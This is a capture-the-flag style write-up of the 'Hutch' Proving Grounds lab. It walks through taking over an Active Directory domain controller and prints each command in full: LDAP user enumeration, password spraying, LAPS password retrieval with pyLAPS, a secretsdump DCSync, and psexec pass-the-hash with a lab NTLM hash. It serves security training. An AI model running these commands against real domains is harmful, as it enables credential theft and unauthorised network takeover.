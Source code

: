 # **HUTCH | PG Practice**

## **C.Rating : Hard**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/f18534d6-daa9-4345-9cc4-69548cdfceab)

***

Running our nmap scan we have:


```bash
# Nmap 7.94SVN scan initiated Thu Jun 13 09:55:09 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.214.122
Nmap scan report for 192.168.214.122
Host is up (0.15s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/10.0
|   WebDAV type: Unknown
|   Server Date: Thu, 13 Jun 2024 08:58:07 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-13 08:57:17Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: HUTCHDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-13T08:58:09
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 13 09:58:51 2024 -- 1 IP address (1 host up) scanned in 222.82 seconds
```


Checking port 80 we have a default IIS page

![](https://i.imgur.com/qzWtkMc.png)






Decided to run `enum4linux-ng` also for more enumeration


```bash
enum4linux-ng 192.168.214.122 -L -S -oJ hutch.json

# -L: Get additional info via LDAP/LDAPS
# -S: Get shares via RPC
# -oJ: Writes output to JSON file
```



![](https://i.imgur.com/9vVXGWK.png)


Domain : hutch.offsec
DC : HUTCHDC


Enumerating users via `ldapsearch` we have few users


```bash
ldapsearch -x -H ldap://192.168.214.122 -b "DC=hutch,DC=offsec" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```


![](https://i.imgur.com/4y5clqt.png)



```
Guest
rplacidi
opatry
ltaunton
acostello
jsparwell
oknee
jmckendry
avictoria
jfrarey
eaburrow
cluddy
agitthouse
fmcsorley
```



We can also confirm that this users are valid using the `kerbrute` tool


```bash
kerbrute userenum --dc 192.168.214.122 -d hutch.offsec users.txt
```


![](https://i.imgur.com/5ac4Q3H.png)


Performing an ASREPRoasting attack, unfortunately no user has pre-authentication enabled


```bash
GetNPUsers.py hutch.offsec/ -usersfile users.txt -format hashcat -dc-ip 192.168.214.122
```


![](https://i.imgur.com/19LxHwc.png)


Tried to password spray

```bash
crackmapexec smb 192.168.214.122 -u users.txt -p users.txt
```


![](https://i.imgur.com/EVW8zBJ.png)



![](https://i.imgur.com/7YGbvds.png)



However password spraying with an empty password we have this `STATUS_ACCOUNT_DISABLED` message on the guest account



![](https://i.imgur.com/9epKINu.png)


Still couldn't do anything cos we need the administrator password to enable any account, However it took me hours to figure out that some users leave passwords in description, so the below command using `ldapsearch` helped 



```bash
ldapsearch -x -H ldap://192.168.214.122 -b "DC=hutch,DC=offsec" -s sub "(&(objectclass=*))"  | grep description:
```


![](https://i.imgur.com/clUpkSP.png)



We found a password called `CrabSharkJellyfish192`, soooo i decided to password spray and we got a hit at user `fmcsorley`



```bash
netexec smb 192.168.214.122 -u users.txt -p "CrabSharkJellyfish192"
```



![](https://i.imgur.com/BHe29vS.png)


As my own **rule of thumb**, after valid creds i roll up `bloodhound-python` first to get more information on the domain


```bash
bloodhound-python -u 'fmcsorley' -p 'CrabSharkJellyfish192' -ns 192.168.214.122 -d hutch.offsec -c all
```



![](https://i.imgur.com/m6X2Wqr.png)



Also just so we don't miss anything let us check if this user has access to any shares


```bash
smbmap -H 192.168.214.122 -u fmcsorley -p CrabSharkJellyfish192
```



![](https://i.imgur.com/d4Dj05m.png)




However enumerating the shares i couldn't find anything valid so i  ran back to bloodhound, loaded my data and found out the user `fmcsorley` can read the **Local Administrator Password Solution** (LAPS) which **provides management of local account passwords of domain joined computers**.


![](https://i.imgur.com/Gg6lUsf.png)


To abuse this we can use the [pyLAPS](https://github.com/p0dalirius/pyLAPS) tool to retrieve credentials



```bash
./pyLAPS.py --action get -d "hutch.offsec" -u "fmcsorley" -p "CrabSharkJellyfish192" --dc-ip 192.168.214.122
```



![](https://i.imgur.com/jDxoPEq.png)


Now let see if this password works for the administrator user, hehe


```bash
netexec smb 192.168.198.122 -u administrator -p "{2[i2Nae6IjQDF" -d hutch.offsec
```


![](https://i.imgur.com/k3ALru1.png)


> I am so sorry the password above is different same as the IP, the lab got stopped and all things where rotated



We have a hit on the administrator and it looks like we are domain admin, we can still take a step further and perform the DCSync attack to replicate the DC and dump all users hash


```bash
secretsdump.py 'hutch.offsec'/'administrator'@192.168.198.122                
# Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies      
                                                                                                                                                                                             
# Password:
```



![](https://i.imgur.com/7Itac4o.png)


Then pass-the-hash for the admin user and get all flags


```bash
psexec.py administrator@192.168.198.122 -hashes aad3b435b51404eeaad3b435b51404ee:0ae9bb132b0b7c3722b7ba682d966e7a
```



![](https://i.imgur.com/9GGwfBp.png)


## What did I learn ?


- First of, I need to start building a methodology for attacking AD, Point is, i missed the **"password in description"**, took me hours to figure it out and finally got it from a friend, this same thing also happened in **Dante**, THE LITTLE THINGS MATTER
- Secondly this lab was quite easy and straight forward BTW, cos' it is AD, hehe, soooo start learning **active directory penetration testing**!



Have fun 🤤


![](https://i.pinimg.com/originals/ca/26/2e/ca262e0354eea311c41134c3e4bc3bc2.gif)


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>
